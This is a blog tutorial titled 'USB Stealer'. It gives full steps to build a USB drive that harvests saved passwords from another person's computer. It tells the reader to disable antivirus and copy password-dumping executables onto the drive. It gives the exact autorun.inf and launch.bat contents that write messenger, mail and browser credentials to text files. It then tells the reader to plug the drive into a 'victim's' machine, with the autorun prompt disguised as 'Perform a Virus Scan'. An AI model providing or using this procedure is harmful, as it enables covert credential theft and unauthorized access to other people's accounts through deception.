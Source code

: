 ```yaml
---
title: USB Stealer, Just like those unrealistic movies and TV shows, except this
  one's real.
path: /usb-stealer
tags:
  - Cyber Security
metaImage: assets/usb.jpg
featuredImage: ./assets/usb.jpg
excerpt: Every security system has a flaw and what we’re going to discuss here
  is just that. Most people, with their eyes on the clock and not a second to
  spare just tick “Remember Me” on various websites without a second thought
created: 2020-07-18T10:42:37.871Z
updated: 2020-07-18T10:42:37.933Z
---
```

There’s a lot of people in the world and even more online accounts. Every security system has a flaw and what we’re going to discuss here is just that. Most people, with their eyes on the clock and not a second to spare just tick “Remember Me” on various websites without a second thought thinking it’s going to save their time. This is particularly common among people who have a private system, maybe a Laptop that nobody else ever touches or a PC which they have locked with a password. Not knowing that there exist many tools to “recover” saved passwords (More like- to exploit exactly these naive people). Browsers store passwords and account details in cookies. What’s quite surprising is just how little security they offer, even worse, none of the browsers seem to care about encrypting passwords. Most of them have an option to “Show Saved Passwords” in the options menu. We’re going to cut even that out, just plug in a USB- Take it out- and Voila! we have all the passwords. That is what you’ll learn in this tutorial. So, with a goal in mind and not a second to spare, let’s start right away.

Things you will need (Intentionally no links are attached):-

**MessenPass** - MessenPass is a password recovery tool that reveals the passwords of several common instant messenger applications.

**Mail PassView** - Mail PassView is a small password-recovery tool that reveals the passwords and other account details for Outlook express, windows mail, POP3, etc

**IE Passview** - IE passview is another small program that helps us view stored passwords in Internet explorer.

**Protected storage pass viewer(PSPV)** - Protected Storage PassView is a small utility that reveals the passwords stored on your computer by Internet Explorer, Outlook Express and MSN Explorer.

**Password Fox** - Password fox is a small program used to view Stored passwords in Mozilla Firefox. (These are the ones I’ve tried and tested. More like these surely exist and you can always Google it out for something possibly better. There are analogous tools for the Chrome browser too. You can find these and tons more at )

So that’s that and now we are ready to create a USB password stealer.

**Note:** These programs tend to attract a lot of attention from antivirus software (Get used to this). Kindly disable your antivirus before performing these steps, at your own risk of course 😉

1. First of all download all 5 tools in your USB. Most of them are just some .exe files (mspass.exe, mailpv.exe, iepv.exe, pspv.exe, and passwordfox.exe). (You need the software completely on your pen drive. Make sure you have all the installation files in your USB\[if any])
2. Create a new Notepad and write the following text into it: \[autorun] open=launch.bat

ACTION= Perform a Virus Scan

Save the Notepad and rename it from New Text Document.txt to autorun.inf

Now copy the autorun.inf file onto your USB Pendrive.

1. Create another Notepad and write the following text onto it.

```restructuredtext
start mspass.exe /stext mspass.txt

start mailpv.exe /stext mailpv.txt

start iepv.exe /stext iepv.txt

start pspv.exe /stext pspv.txt

start passwordfox.exe /stext passwordfox.txt
```

Save the Notepad and rename it from New Text Document.txt to launch.bat

Copy the launch.bat file also to your USB drive.

These were simple commands to start up our password “recovering” programs as soon as we plug in the USB. What we just did here is simply hook up our launch.bat batch file to the autorun.inf file that automatically runs when the computer detects the USB. In the launch.bat, we started up our programs and provided them with file names as parameters so that each program should put in the passwords in their respective .txt files.

- - -

Now your USB password stealer is ready. All you have to do is insert it in your victims computer and a popup will appear, in the popup window select the option (Perform a virus scan) as soon as you will click it, your USB password stealer will do it’s magic and all the passwords saved on the system will be saved in a .txt file. I recommend you try it out on your own system first to see how it should work.

See the last line of our autorun.inf, we are simply specifying the text for the alert dialog. You can type in anything you think is the least suspicious.

This may not work on all operating systems and all different browsers. Your best bet would be to pack in as many diverse programs as you can for giving you the best chance. Also, note that the computer should not have autorun feature disabled for the USB stealer to work.